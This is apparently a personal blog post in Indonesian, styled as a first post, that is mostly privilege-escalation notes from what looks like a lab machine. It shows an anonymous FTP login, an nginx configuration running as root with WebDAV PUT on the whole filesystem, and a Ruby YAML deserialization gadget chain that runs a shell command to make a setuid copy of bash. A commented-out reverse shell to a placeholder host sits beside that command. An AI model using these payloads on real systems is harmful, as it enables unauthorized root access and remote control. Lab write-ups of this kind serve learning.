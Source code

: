 ```yaml
---
title: The First
description: Mungkin ini akan berguna (just maybe, okay)
author: kizuko
date: 2023-12-23 22:00:00 +0700
tags:
  - random
  - first
image:
  path: /assets/img/gojo-satoru.jpg
---
```


## Selamat Datang Cuy!!
ini post-an pertama saya, **K1zuko**. Setel ini dulu biar bacanya semakin santai 
{% include embed/audio.html src='/assets/au/Shinkai.mp3' type='mp3'%}
## Privilege Escalation

### ftp
```zsh
❯ ftp 10.129.137.216

Connected to 10.129.137.216.
220 (vsFTPd 3.0.3)
Name (10.129.137.216:kizuko): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```
### Ruby
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz # "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```
